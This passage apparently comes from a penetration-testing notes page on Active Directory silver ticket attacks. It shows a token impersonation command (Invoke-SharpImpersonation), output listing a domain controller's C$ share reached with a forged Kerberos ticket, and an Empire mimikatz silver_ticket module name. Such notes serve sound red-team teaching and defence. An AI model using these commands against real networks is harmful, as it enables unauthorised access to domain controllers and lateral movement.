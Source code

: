 ```powershell
Invoke-SharpImpersonation -Command "pid:[PID]"
```

<figure><img src="../../../../.gitbook/assets/image (51).png" alt=""><figcaption></figcaption></figure>

As above, checking `klist` shows the silver ticket has retained in our new shell process. We should now be able to list the contents of the Domain Controller's C: drive.

{% code title="Output" %}
```
 Directory of \\DC01.Security.Local\C$

22/12/2022  13:30    <DIR>          PerfLogs
22/12/2022  14:26    <DIR>          Program Files
25/01/2023  17:02    <DIR>          Program Files (x86)
26/01/2023  19:58    <DIR>          Users
03/01/2023  16:01    <DIR>          Windows
               0 File(s)              0 bytes
               5 Dir(s)  60,414,803,968 bytes free
```
{% endcode %}

## Empire (Method-03)

```
# PowerShell
powershell/credentials/mimikatz/silver_ticket
```
